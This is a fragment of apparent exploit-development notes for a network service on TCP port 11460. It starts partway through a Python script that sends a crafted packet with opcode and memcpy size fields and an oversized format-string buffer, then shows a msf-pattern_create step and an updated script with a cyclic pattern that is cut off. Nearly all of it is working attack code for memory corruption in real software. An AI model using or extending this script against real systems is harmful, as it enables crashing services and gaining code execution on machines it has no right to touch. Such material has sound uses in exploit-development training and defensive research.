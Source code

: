 	# psCommandBuffer
	formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (b"A"*0x200,0,0,0,0)
	buf += formatString
	
	# Checksum
	buf = pack(">i", len(buf)-4) + buf
	
	def main():
	        if len(sys.argv) != 2:
	                print("Usage: %s <ip_address>\n" % (sys.argv[0]))
	                sys.exit(1)
	        
	        server = sys.argv[1]
	        port = 11460
	
	        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        s.connect((server, port))
	
	        s.send(buf)
	        s.close()
	
	        print("[+] Packet sent")
	        sys.exit(0)
	
	
	if __name__ == "__main__":
	 	main()

Getting the offset
	msf-pattern_create -l 0x200

Update script with this:
	import socket
	import sys
	from struct import pack
	
	# psAgentCommand
	buf = bytearray([0x41]*0xC)
	buf += pack("<i", 0x534)  # opcode
	buf += pack("<i", 0x0)    # 1st memcpy: offset
	buf += pack("<i", 0x500)  # 1st memcpy: size field
	buf += pack("<i", 0x0)    # 2nd memcpy: offset
	buf += pack("<i", 0x100)  # 2nd memcpy: size field
	buf += pack("<i", 0x0)    # 3rd memcpy: offset
	buf += pack("<i", 0x100)  # 3rd memcpy: size field
	buf += bytearray([0x41]*0x8)
	
	# psCommandBuffer
	pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac...
	